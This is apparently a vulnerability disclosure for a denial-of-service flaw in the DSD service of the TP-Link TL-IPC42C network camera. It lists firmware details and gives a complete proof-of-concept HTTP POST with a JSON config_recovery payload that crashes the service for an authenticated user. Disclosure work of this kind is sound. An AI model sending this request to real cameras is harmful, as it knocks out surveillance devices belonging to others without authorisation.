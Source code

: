 
vendor name:TP-Link

model:TL-IPC42C

version: V4.0_20211227_1.0.16

firmware download:https://security.tp-link.com.cn/service/detail_download_9856.html

![be706d3e43a3253c6495d6b797a28f1](https://github.com/user-attachments/assets/c5849e20-ce46-4e01-a734-94dbcb0c35f4)


![image](https://github.com/user-attachments/assets/230069a0-7220-42ff-8474-c424fb249503)


TP-Link TL-IPC42C is a network camera produced by TP-Link.A denial of service vulnerability was discovered in the sub_1DAAC function of the DSD binary, which can cause the DSD service to crash by sending the POC after obtaining the stok credentials for user login.

poc

```
POST /stok=you_stok_here/ds HTTP/1.1

Host: 192.168.2.229

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 326

Origin: http://192.168.2.229

Connection: close

Referer: http://192.168.2.229/



{"system":{"config_recovery":{"config_name":[{"id":"1","pt1_x":"1657","pt1_y":"4382","pt2_x":"9253","pt2_y":"4413","direction":"AtoB","sensitivity":"50","people_enabled":"off"},{"id":"2","pt1_x":"1206","pt1_y":"1574","pt2_x":"9392","pt2_y":"1327","direction":"BtoA","sensitivity":"50","people_enabled":"off"}]}},"method":"do"}
```

![image](https://github.com/user-attachments/assets/8da01337-ac7c-4794-8b62-ebb70c244141)


In the logs of the management interface, it can be seen that the DSD service has experienced several crashes. 

![image](https://github.com/user-attachments/assets/14363876-85a7-463b-91b4-33a3be7576ae)


![image](https://github.com/user-attachments/assets/29f5facc-7a27-4df0-83df-db6b25f43506)


